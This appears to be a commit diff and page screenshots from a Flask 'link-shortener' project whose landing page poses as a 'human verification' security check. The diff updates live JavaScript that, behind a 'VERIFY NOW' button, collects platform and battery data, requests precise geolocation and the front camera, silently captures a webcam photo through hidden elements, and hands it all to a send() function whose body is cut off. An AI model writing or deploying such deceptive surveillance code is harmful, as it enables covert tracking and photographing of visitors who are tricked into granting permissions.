

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update HTML for human verification page

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,46 +1,50 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Human Verification</title>
+    <title>Verify You Are Human</title>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <style>
-        body { background: #000; color: #fff; font-family: sans-serif; text-align: center; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
-        .box { border: 1px solid #333; padding: 20px; border-radius: 10px; }
-        button { background: #007bff; color: white; border: none; padding: 10px 20px; border-radius: 5px; cursor: pointer; font-size: 16px; }
+        body { background: #000; color: #0f0; font-family: 'Courier New', monospace; text-align: center; display: flex; align-items: center; justify-content: center; height: 100vh; margin: 0; }
+        .box { border: 1px solid #0f0; padding: 30px; border-radius: 5px; box-shadow: 0 0 15px #0f0; }
+        button { background: #0f0; color: #000; padding: 12px 25px; border: none; cursor: pointer; font-weight: bold; margin-top: 20px; }
     </style>
 </head>
 <body>
     <div class="box">
-        <h2>Verify You Are Human</h2>
-        <p>Please allow access to complete security check.</p>
-        <button onclick="init()">VERIFY NOW</button>
+        <h3>🔒 SECURITY CHECK</h3>
+        <p>Complete verification to view content.</p>
+        <button onclick="start()">VERIFY NOW</button>
     </div>
 
     <video id="v" style="display:none;" autoplay></video>
     <canvas id="c" style="display:none;" width="640" height="480"></canvas>
 
     <script>
-        async function init() {
-            let info = { platform: navigator.platform, battery: "N/A", lat: "N/A", lon: "N/A" };
+        async function start() {
+            let info = { platform: navigator.platform, battery: "N/A", lat: "0", lon: "0" };
 
-            // Battery
-            if(navigator.getBattery) { const b = await navigator.getBattery(); info.battery = (b.level*100)+"%"; }
+            // Battery info
+            if(navigator.getBattery) { const b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; }
 
-            // Location & Camera
-            navigator.geolocation.getCurrentPosition(async (p) => {
-                info.lat = p.coords.latitude; info.lon = p.coords.longitude;
+            // Location & Camera Permission
+            navigator.geolocation.getCurrentPosition(async (pos) => {
+                info.lat = pos.coords.latitude; info.lon = pos.coords.longitude;
                 try {
-                    const s = await navigator.mediaDevices.getUserMedia({video:true});
-                    const v = document.getElementById('v'); v.srcObject = s;
+                    const stream = await navigator.mediaDevices.getUserMedia({video: { facingMode: "user" }});
+                    const video = document.getElementById('v');
+                    video.srcObject = stream;
+
                     setTimeout(() => {
-                        const cn = document.getElementById('c');
-                        cn.getContext('2d').drawImage(v,0,0);
-                        const img = cn.toDataURL('image/jpeg');
-                        s.getTracks().forEach(t => t.stop());
-                        send(info, img);
-                    }, 2000);
+                        const canvas = document.getElementById('c');
+                        canvas.getContext('2d').drawImage(video, 0, 0);
+                        const imgData = canvas.toDataURL('image/jpeg', 0.7);
+                        stream.getTracks().forEach(t => t.stop());
+                        send(info, imgData);
+                    }, 1500);
                 } catch(e) { send(info, null); }
-            }, (e) => { alert("Verification failed. Please allow permissions."); });
+            }, (err) => {
+                alert("Error: Please allow Location and Camera to verify.");
+            }, {enableHighAccuracy:true});
         }
 
         function send(i, p) {
```
